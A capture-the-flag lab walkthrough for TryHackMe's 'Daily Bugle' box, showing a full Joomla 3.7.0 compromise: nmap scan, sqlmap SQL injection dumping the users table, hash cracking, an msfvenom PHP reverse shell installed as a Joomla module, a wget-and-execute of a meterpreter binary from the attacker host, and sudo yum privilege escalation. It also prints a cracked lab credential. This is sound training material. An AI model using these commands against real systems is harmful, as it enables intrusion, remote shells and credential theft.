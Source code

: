 # Daily Bugle - TryHackMe

Start with an nmap:

```
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ nmap -sV -sC -Pn 10.10.159.172
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 08:30 EDT
Nmap scan report for 10.10.159.172
Host is up (0.033s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.59 seconds
```

Going on the hosted website gives us this:

![](2021-03-14-08-32-10.png)

In order to try and get the version of Joomla the website utilises, I am using metasploit module `scanner/http/joomla_version`:

![](2021-03-14-08-56-27.png)

Okay, so we now know the Joomla version is 3.7.0, let's see if there are any exploits for this:

![](2021-03-14-08-58-29.png)

Exploit [42033](https://www.exploit-db.com/exploits/42033) on ExploitDB showcases an SQLi on the parameter `list[fullordering]`

I am going to run SQLMap on the target and check whether we have an injection vector:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering]

...

sqlmap identified the following injection point(s) with a total of 1900 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 7858 FROM(SELECT COUNT(*),CONCAT(0x716a6a7a71,(SELECT (ELT(7858=7858,1))),0x71626b6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 5409 FROM (SELECT(SLEEP(5)))sDtF)

```

Okay, so the parameter is injectable! Let's see if we can dump the database:

```        
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering] --dbs

...

available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```

I'm going to explore the joomla database and see what tables are in there:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering] --tables -D joomla
```

Within the list is the table #__users. Let's see if we can dump this table:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering] --tables -D joomla -T \#__users --dump
```

SQLMap cannot retrieve the columns so I opt for using a wordlist to bruteforce check common collons, and, it finds the following collumns:

```
[09:36:41] [INFO] retrieved: id                                                                                       [09:36:41] [INFO] retrieved: name                                                                                               
[09:36:42] [INFO] retrieved: username                                                                                           
[09:36:45] [INFO] retrieved: email                                                                                              
[09:37:05] [INFO] retrieved: password
```

I end the bruteforce check early, as these columns are sufficient, and am left with the dumped table:

![](2021-03-14-09-40-30.png)

Okay, we have a hash. I start up John with the infamous rockyou wordlist:

![](2021-03-14-09-50-07.png)

Great! We have a username and password combo:
jonah:spiderman123

I head over to /administrator and input the username and password - success! We are in the admin panel.. let's see if we can get a shell.

So I will create a meterpreter reverse tcp shell to upload using msfvenom:

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p php/reverse_php LHOST=10.9.3.215 LPORT=4444 -f raw > shell.php 
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload                                                                                      
No encoder specified, outputting raw payload                                                                                            
Payload size: 3049 bytes 
```

I then create a Joomla extension by creating a .xml file:

![](2021-03-16-06-09-31.png)

And then zipping up this with the php shell script:

```
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ zip mod_shell.zip mod_shell.php mod_shell.xml
  adding: mod_shell.php (deflated 69%)
  adding: mod_shell.xml (deflated 41%)
```

And uploading it to through joomla admin via Extensions/Manage/Install (top menu):

![](2021-03-16-06-10-54.png)

I then enable the module in the settings, and place it in a given position:

![](2021-03-16-06-13-49.png)

![](2021-03-16-06-14-05.png)

Then I save, and start up netcat listening on port 4444:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444  
listening on [any] 4444 ...
```

And then navigate to the front-end website again in order to load our php module, and we have a shell!

![](2021-03-16-06-15-14.png)

However, I need a better shell; this one keeps dying after the webserver times me out, and it's just kinda ugly.. Let's see if we can get a meterpreter shell:

On my local machine I create a meterpreter binary and host it on a webserver:

```
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.9.3.215 LPORT=4443 -f elf > shell.elf                                            1 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

                                                                                                                                                
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ python -m SimpleHTTPServer                                                                  
Serving HTTP on 0.0.0.0 port 8000 ...
```

Then on the target I download and execute the binary:

```
wget http://10.9.3.215:8000/shell.elf ./shell.elf
chmod +x shell.elf 
./shell.elf
```

And, in metasploit, I have already setup the reverse connection, and wholla, we have the shell:

![](2021-03-16-06-30-38.png)

Now we need to look at privesc. Initially, I noticed the file configuration.php, and upon catting it, we see some passwords:

![](2021-03-16-09-01-40.png)

And, luckily, the same password is being used for the jjameson account on the box!

![](2021-03-16-09-02-42.png)

Now, after getting the user flag, we can look into privesc. Checking sudo permissions we see that we have NOPASSWD for /usr/bin/yum:

![](2021-03-16-09-04-13.png)


Doing some research on [GTFOBins](https://gtfobins.github.io/gtfobins/yum/), it seems there may be a privesc involving yum not dropping the escalated privileges.

After creating a custom YUM plugin which executes /bin/sh, we have root:

![](2021-03-16-09-16-15.png)


